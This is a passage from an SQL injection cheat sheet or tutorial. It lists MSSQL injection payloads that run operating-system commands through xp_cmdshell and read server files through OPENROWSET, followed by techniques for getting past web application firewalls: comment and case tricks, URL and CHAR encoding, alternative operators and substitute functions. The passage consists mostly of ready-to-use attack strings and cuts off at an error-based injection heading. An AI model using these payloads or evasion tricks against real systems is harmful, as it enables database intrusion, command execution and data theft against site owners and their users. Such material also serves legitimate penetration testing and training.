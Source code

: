 ### MSSQL Exploitation

Microsoft SQL Server has its own set of useful functions:

```sql
-- Command execution via xp_cmdshell
'; EXEC xp_cmdshell 'whoami'--

-- Reading files
' UNION SELECT 1,BulkColumn,3 FROM OPENROWSET(BULK '/windows/system32/drivers/etc/hosts', SINGLE_BLOB) AS t--
```

## Advanced Evasion Techniques

### WAF Bypass Methods

Modern applications often employ Web Application Firewalls (WAFs). Here are techniques to bypass common filters:

```sql
-- Comment variations
/*comment*/ /*!comment*/ #comment --comment

-- Case variations
UnIoN SeLeCt

-- Encoding techniques
%55%4e%49%4f%4e (URL encoding for UNION)
CHAR(85,78,73,79,78) (CHAR encoding for UNION)

-- Alternative operators
AND 1=1
&& 1=1
%26%26 1=1
```

### Function Alternatives

When common functions are blocked, alternatives often work:

```sql
-- Instead of SUBSTRING
MID(), LEFT(), RIGHT()

-- Instead of CONCAT
MAKE_SET(), ELT()

-- Instead of ASCII
ORD()
```

## Error-Based Injection
